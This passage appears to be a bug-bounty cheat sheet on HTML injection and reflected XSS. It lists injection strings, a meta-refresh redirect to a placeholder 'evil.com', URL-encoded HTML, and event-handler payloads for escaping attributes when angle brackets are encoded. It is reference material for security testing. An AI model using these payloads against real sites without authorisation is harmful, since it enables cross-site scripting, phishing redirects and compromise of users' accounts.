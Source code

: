 **External Sources for Payloads**
- [XSS Payload List](https://github.com/payloadbox/xss-payload-list)
- [Tiny XSS Payloads for Filter Bypass](https://github.com/terjanq/Tiny-XSS-Payloads)
- [For complex type of xss](https://html5sec.org/)

---

## HTML Injection
```html
<h1>cyborg71</h1>
```
```html
"><h1>cyborg71</h1>
```
**Redirect to a malicious page**
```
<meta http-equiv="refresh" content='0; url=https://evil.com/
```
```html
<a href="https://google.com"></a>
```
Sometimes applications decode url encoded inputs. So try to inject some payloads with url encoding and see if the application decode it into the plain text html code. You can try this method for xss also.
<br>
<br>
**HTML Payload**
```
<h1>cyborg71</h1>
```
**URL Encoded HTML Payload**
```
%3c%68%31%3e%63%79%62%6f%72%67%37%31%3c%2f%68%31%3e
```
[Poc of Coinbase Comment](https://hackerone.com/reports/104543)

---

## Angle Brackets HTML-Encoded Bypass

### Reflected XSS in HTML Attribute with Angle Brackets HTML-Encoded
Inject:
```html
<xss123>'"
```
Check if angle brackets `<` and `>` are encoded as `&lt;` and `&gt;`. If so, use these payloads:
```javascript
" onclick="alert(1337)
```
```javascript
" autofocus="alert(1337)
```
```javascript
" autofocus onfocus="alert(1337)
```
```javascript
" onmouseover="alert(1)
```

